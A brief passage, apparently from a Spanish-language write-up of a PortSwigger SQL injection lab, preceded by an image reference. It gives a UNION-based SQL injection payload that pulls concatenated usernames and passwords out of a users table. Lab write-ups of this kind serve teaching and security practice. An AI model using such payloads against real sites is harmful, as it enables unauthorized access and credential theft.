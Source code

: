 ![](/assets/img/ps-writeup-sqli/ps-lab5_5.png)

Conociendo el valor de las columnas donde se guardan los usuarios y la contraseñas, se puede hacer la siguiente query:

```sql
' union select NULL,concat(username_mzomwc,':',password_rvltqt) from users_xvjqcx--
```
